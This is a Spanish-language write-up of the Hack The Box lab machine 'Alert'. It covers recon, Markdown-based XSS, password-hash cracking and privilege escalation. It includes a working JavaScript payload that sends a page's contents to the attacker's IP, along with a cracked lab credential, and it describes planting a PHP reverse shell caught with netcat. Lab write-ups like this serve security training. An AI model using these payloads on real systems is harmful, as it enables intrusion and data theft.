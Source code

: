 # Alert

**Sistema Operativo**: Linux

**Dificultad**: Fácil 

**Técnicas Vistas**: XSS - Injection Via Markdown /
Discovering LFI accessible from XSS /
Cracking Hashes /
Exploiting Web Service Executed by Root /
Creating a Malicious php File in Writable Path [Privilege Escalation]

Te prepara para las **Certificaciones**: eJPT /
eWPT<br><br>

![image](https://github.com/user-attachments/assets/7d793b11-5179-4963-bcc7-caeffcc09791)


# Reconocimiento

Utilizando `nmap` escaneamos todos los puertos<br>

![image](https://github.com/user-attachments/assets/80979494-01dc-479f-b4e7-3f2a32954b22)<br>

- `-p-` -> Escanea todos los puertos 
- `-sS` -> escaneo de tipo SYN
- `--open` -> Todos los puertos abiertos
- `--min-rate=5000` -> Manda mínimo 5000 paquetes por segundo
- `-Pn` -> Asume que el host especificado está activo
- `-vvv` -> Aplica triple Verbose 
-  `-n` -> Que no aplique resolución DNS
- `-oG allports` -> manda todo a un archivo con nombre de "allports"<br><br>

Utilizando `whatweb` vemos el dominio `http://alert.htb`<br>

![image](https://github.com/user-attachments/assets/66f24ffc-dd2e-4b2c-85b9-058731e0b588)<br>

- Abrimos `vim /etc/hosts` 
- Introducimos el dominio `10.10.11.44 alert.htb`<br><br>

# XSS 

Creo un `test.md` que contenga:<br>

`<script src="http://10.10.14.32/santi.js"></script>`

Creo un `santi.js` que contenga:<br>

```
var req = new XMLHttpRequest();
req.open('GET', 'http://alert.htb/index.php?pages=messages', false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET', 'http://10.10.14.32/?b64=' + btoa(req.responseText), false);
exfil.send();
```

Envió el `test.md`<br>

![image](https://github.com/user-attachments/assets/4241138b-d066-4d86-9b13-ea376f7911ef)<br>

Pincho el "Share Markdown":<br>

![image](https://github.com/user-attachments/assets/90d92aa0-5660-4fa9-8280-c8c02713c42b)<br>

Copiamos el Link:<br>

![image](https://github.com/user-attachments/assets/4f06f97b-d60f-4010-9f81-e973065fc274)<br>

Lo pegamos en "Contact US"  y antes de dar "Send", abrimos el puerto 80  con python -> `python3 -m http.server 80`<br>

![image](https://github.com/user-attachments/assets/144f42aa-db45-4308-8ee9-5242fa76966c)<br>

Nos devuelve todo el código html en base64 -> lo volvemos a texto -> vemos una ruta "messages.php?file="<br>

![image](https://github.com/user-attachments/assets/ea1d45dc-05a9-4127-844f-4965f71a383f)<br>

Ponemos la ruta en "santi.js":<br>

![image](https://github.com/user-attachments/assets/aced18fd-478c-4f02-966b-6045ace9ce28)<br>

Encontramos el Subdominio investigando la ruta default de apache.<br>

![image](https://github.com/user-attachments/assets/3ac5c8dd-9241-4139-877d-6102d70e9335)<br>

En esta ruta encontramos el usuario y contraseña cifrada:<br>

![image](https://github.com/user-attachments/assets/e937381d-b3bf-4732-a9d4-479f1b6c1897)<br>

![image](https://github.com/user-attachments/assets/ed4d5f43-d31e-4bec-83f8-103eb73185c9)<br>


# Fuerza bruta con hashcat

`vim hash`<br>

```
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

`hashcat hash /usr/share/wordlists/rockyou.txt --user`

Usuario -> albert<br>
Contraseña -> manchesterunited<br>

`ssh albert@10.10.11.44` y ponemos la contraseña.<br>


# Escalada de privilegios

Con `ss -nltp` vemos un puerto 8080 abierto solo desde la  maquina victima:<br>

![image](https://github.com/user-attachments/assets/1fb6ad23-62de-45de-a4f8-c0cdf16c7048)<br><br>


Tambien vemos que estamos en un grupo "management" y buscamos por ese grupo el que nos muestra unas rutas.<br>

![image](https://github.com/user-attachments/assets/864f345b-41e8-4f87-92e8-7888160052fc)<br><br>

Vemos que tenemos capacidad de escribir y ejecutar en la carpeta "monitors" y que se esta ejecutando un pagina web en 127.0.0.1:8080<br>

![image](https://github.com/user-attachments/assets/4675f161-b88e-4453-b014-fb124ad3d7da)<br><br>

En la carpeta "monitors" creamos un "test.php" que contenga una reverse shell.
Nos ponemos en escucha `nc -nlvp 443`<br>

![image](https://github.com/user-attachments/assets/699ec32e-0a29-47e1-b431-6fb90325f76f)<br>


Ejecutamos la Query en esta ruta `http://127.0.0.1:8080/monitors/test.php`<br>

Flag root:<br>

![image](https://github.com/user-attachments/assets/b54a7e0c-182c-4c9a-9dea-46a45b84555a)<br>








